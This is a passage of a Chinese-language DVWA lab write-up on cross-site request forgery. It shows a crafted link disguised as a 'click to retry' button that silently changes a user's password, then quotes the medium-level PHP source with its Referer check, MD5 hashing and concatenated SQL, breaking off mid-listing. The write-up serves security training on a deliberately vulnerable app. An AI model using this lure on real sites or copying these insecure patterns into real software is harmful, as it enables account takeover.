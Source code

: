 ![image-20250510190548161](image-20250510190548161.png)

也可以制作页面，诱导用户点击

```html
<a href="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#"><img src="">点击重试</a>
```

## medium

看源码

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $current_user = dvwaCurrentUser();
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
```